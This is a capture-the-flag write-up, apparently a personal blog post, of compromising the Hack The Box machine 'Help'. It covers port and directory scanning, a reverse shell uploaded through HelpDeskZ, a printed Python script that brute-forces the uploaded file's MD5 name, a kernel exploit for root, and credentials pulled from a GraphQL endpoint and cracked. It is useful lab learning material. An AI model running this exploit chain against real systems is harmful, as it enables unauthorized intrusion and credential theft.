 ```yaml
---
layout: PostSimple
date: 2019-12-08
title:     "Hack The Box - Help"
tags: ['linux','easy','node','kernel_exploit']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/1.png)

We are going to pwn Help from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/170>


Like always begin with our Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp


PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Lets begin from HTTP,It is an apache default webpage
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/2.png)

So bruteforce the directories
## Gobuster Results:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.121
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/15 00:08:21 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
/javascript (Status: 301)
/server-status (Status: 403)
/support (Status: 301)
===============================================================
2019/12/15 00:10:45 Finished
===============================================================
```

Found ``HelpDeskZ`` on ``/support``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/3.png)
It has a login page too.

A quick check for any exploits available I found this

>https://www.exploit-db.com/exploits/40300 

From the exploit I came to know we need to submit a ticket
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/4.png)

I gave some random and uploaded my reverse shell as ``root.php``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/5.png)

When I click uploaded it says<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/6.png)

Then I checked the source code of the ``HelpDeskz`` on github

>https://github.com/evolutionscript/HelpDeskZ-1.0

I came to know when we uploaded it shows ``Not allowed`` but its not deleting ,The file is still saved on the server.

I already found an exploit from ``exploitdb`` so I just edited some 


```
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+'/uploads/tickets/'+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```

I changed the ``url`` , I found that from the github repo.

Now I executed the scirpt on my machine with listening on another terminal.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/7.png)

I got an user ``help``

## Privilege Escalation:

While checking the kernel it looks old one 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/8.png)

> https://www.exploit-db.com/exploits/44298 

Got an exploit for that version

Uploaded the script to the machine 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/9.png)<br/>
Got Root

## Enumerating ``Node.js``:

It looks like ``node.js`` running on port ``3000``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/10.png)

It give us some message that we need to find the credentials with given query.

Mostly ``node.js`` run as ``express graphql``

I test it with adding ``graphql?`` <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/11.png)

It shows some message so I tested with changing it to ``test`` and it gives me some error so I confirmed there is ``graphql``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/12.png)

We know the message told us to find in given ``query`` and I googled about it and found this 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/13.png)

So I added username and password <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/14.png)<br/>
Got some credentials

It looks like md5sum so I cracked with online crackstation
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/15.png)

It works for ``HelpDeskz`` login
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/16.png)